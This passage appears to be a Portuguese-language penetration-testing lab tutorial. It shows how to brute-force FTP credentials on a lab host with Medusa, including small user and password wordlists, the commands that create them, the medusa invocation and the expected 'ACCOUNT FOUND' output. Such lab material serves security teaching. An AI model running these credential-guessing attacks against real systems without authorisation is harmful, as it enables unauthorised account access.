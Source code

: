 ## 💥 Passo 3: Ataques com Medusa

> Certifique-se de que o `medusa` está instalado no Kali (já vem por padrão).

### 3.1 Ataque ao FTP

**Objetivo**: Quebrar credenciais do serviço FTP (ex: usuário `msfadmin`).

**Wordlist simples** (`users.txt` e `pass.txt`):
```txt
# users.txt
user
msfadmin
admin
root

# pass.txt
123456
password
qwerty
msfadmin
```

**Comando para criação de Wordlist users.txt e pass.txt**:
```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt  
```

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt  
```

**Comando Medusa**:
```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6 
```

✅ Se bem-sucedido, você verá:
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

### 📷 Imagem de exemplo:
